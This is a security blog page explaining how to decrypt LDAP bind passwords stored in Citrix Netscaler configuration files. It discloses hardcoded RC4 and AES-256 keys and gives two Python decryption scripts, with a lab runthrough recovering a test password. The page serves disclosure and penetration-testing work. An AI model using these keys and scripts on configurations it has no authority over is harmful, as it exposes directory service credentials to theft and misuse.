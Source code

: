 ```yaml
---
layout: page
title: Decrypting values from the Citrix Netscaler config
permalink: /citrix-decrypt/
---
```


## Netscaler

Netscaler has a hardcoded RC4 encryption key used to encrypt cleartext passwords stored in the config, such as for LDAP. The static encryption key exists in the libnscli90.so library, and as of 10.5 is `2286da6ca015bcd9b7259753c2a5fbc2`.

The below python script will decrypt LDAP and similar encrypted values obtained from the config.
````
#!/usr/bin/python
from Crypto.Cipher import ARC4
import sys, binascii

def decrypt(key, hex):
        out_cipher = ARC4.new(key)
        decoded = out_cipher.decrypt(hex)
        return decoded

def main():
        #Key hardcoded into netscaler libnscli90.so
        key = binascii.unhexlify("2286da6ca015bcd9b7259753c2a5fbc2")

        if len(sys.argv) == 2:
            raw_in = sys.argv[1]
            ciphertext = binascii.unhexlify(raw_in)
            print decrypt(key,ciphertext)

main()
````

## Update:

This seems to have changed at some point and now ldap bind passwords are encrypted by default with a new technique (in the running config looks like 
`add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f -encrypted -encryptmethod ENCMTHD_3 -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf`)

*If the config line says -kek at the end you'll need to pull key encryption keys off the appliance as well, see [this blog post for a reference on the Netscaler KEK](https://www.ferroquesystems.com/resource/citrix-adc-security-kek-files/) :*


Note the `-encryptmethod ENCMTHD_3` in the config. 

After some quick RE i figured out this ENCMTHD_3 is just AES256-CBC with a different key ("351CBE38F041320F22D990AD8365889C7DE2FCCCAE5A1A8707E21E4ADCCD4AD9"). Heres the way to decrypt ENCMTHD_3 values (the default).



```
import base64
from Crypto.Cipher import AES
from Crypto import Random
import binascii,sys  


BS = 16
unpad = lambda s : s[:-ord(s[len(s)-1:])]

#thanks  https://stackoverflow.com/a/12525165 for aes snippet
class AESCipher:
    def __init__( self, key ):
        self.key = key

    def encrypt( self, raw ):
        raw = pad(raw)
        iv = Random.new().read( AES.block_size )
        cipher = AES.new( self.key, AES.MODE_CBC, iv )
        return base64.b64encode( iv + cipher.encrypt( raw ) ) 

    def decrypt( self, enc ):
        iv = "\x00" * 16
        cipher = AES.new(self.key, AES.MODE_CBC, iv )
        return unpad(cipher.decrypt( enc ))



def main():
        #New Key hardcoded into netscaler libnscli90.so
        key = binascii.unhexlify("351CBE38F041320F22D990AD8365889C7DE2FCCCAE5A1A8707E21E4ADCCD4AD9")

        if len(sys.argv) == 2:  
            raw_in = sys.argv[1]
            ciphertext = binascii.unhexlify(raw_in)
            f = AESCipher(key)
            decoded= f.decrypt(ciphertext)
            print decoded[16:]


main()

```


Runthrough

```
>add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword test12345678secretldappassword -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf
Done
>show running
..snip..
add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f -encrypted -encryptmethod ENCMTHD_3 -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf
..snip..

#python decrypt-new.py b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f

test12345678secretldappassword
```

